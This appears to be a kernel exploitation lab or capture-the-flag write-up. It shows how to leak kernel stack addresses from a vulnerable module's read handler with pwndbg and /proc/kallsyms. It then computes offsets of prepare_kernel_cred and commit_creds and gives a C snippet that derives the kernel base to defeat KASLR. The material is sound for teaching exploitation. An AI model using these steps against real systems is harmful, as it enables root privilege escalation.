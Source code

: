 ## Leak of stack addresses

* Get address of `module_read`:

~~~
/ # cat /proc/kallsyms | grep module_read
ffffffffc0000069 t module_read  [vuln]
~~~

* Set bp to `module_read`:

~~~
pwndbg> b *0xffffffffc0000069
Breakpoint 1 at 0xffffffffc0000069
pwndbg> c
Continuing.
~~~

* Debug `module_read`: 

~~~
pwndbg> p $rsp
$1 = (void *) 0xffffc90000567eb0
pwndbg> x/16xg 0xffffc90000567eb0
0xffffc90000567eb0:     0xffffffff8113d33c      0x000000018114cd87
0xffffc90000567ec0:     0xffff8880026bec00      0xffff8880026bec00
0xffffc90000567ed0:     0x00007ffcc2b05c10      0x0000000000000100
0xffffc90000567ee0:     0x0000000000000000      0xffffc90000567f20
0xffffc90000567ef0:     0xffffffff8113d6e3      0x0000000000000000
0xffffc90000567f00:     0x0000000000000000      0xffffc90000567f58
0xffffc90000567f10:     0x0000000000000000      0x0000000000000000
0xffffc90000567f20:     0xffffc90000567f30      0xffffffff8113d775
~~~

* Grep addresses in `/proc/kallsyms`

No symbol is found with these exact addresses:

~~~
/ # grep ffffffff8113d33c /proc/kallsyms
/ # grep ffff8880026bec00 /proc/kallsyms
/ # grep ffffc90000567f20 /proc/kallsyms
/ # grep ffffffff8113d6e3 /proc/kallsyms
/ # grep ffffc90000567f30 /proc/kallsyms
/ # grep ffffffff8113d775 /proc/kallsyms
~~~

try grepping it by excluding the low order bits:

~~~
/ # grep ffffffff8113d /proc/kallsyms
ffffffff8113d240 T kernel_read
ffffffff8113d290 T vfs_read                    <---
ffffffff8113d410 T vfs_write
ffffffff8113d690 T ksys_read
...
/ # grep ffffffff8113d6 /proc/kallsyms
ffffffff8113d690 T ksys_read  				   <---
~~~

Taking as an example `vfs_read` and `ksys_read`, since FGKASLR is disabled, the
offset from the kernel base address to these symbols is fixed.


## Calculate offsets

* Base address

~~~
/ # head /proc/kallsyms
ffffffff81000000 T startup_64
ffffffff81000000 T _stext
ffffffff81000000 T _text
~~~

* Symbols

~~~
/ # grep prepare_kernel_cred /proc/kallsyms
ffffffff8106e240 T prepare_kernel_cred
/ # grep commit_creds /proc/kallsyms
ffffffff8106e390 T commit_creds
~~~

* Offsets

offset prepare_kernel_cred: 0xffffffff8106e240 - 0xffffffff81000000 = 0x6e240
offset commit_creds: 0xffffffff8106e390 - 0xffffffff81000000 = 0x6e390


## Exploit

~~~c
  // when no kaslr buf[0x408] = 0xffffffff8113d33c
  unsigned long addr_vfs_read = *(unsigned long*)&buf[0x408];
  unsigned long kbase = addr_vfs_read - (0xffffffff8113d33c-0xffffffff81000000);
  printf("[+] kbase = 0x%016lx\n", kbase);
~~~
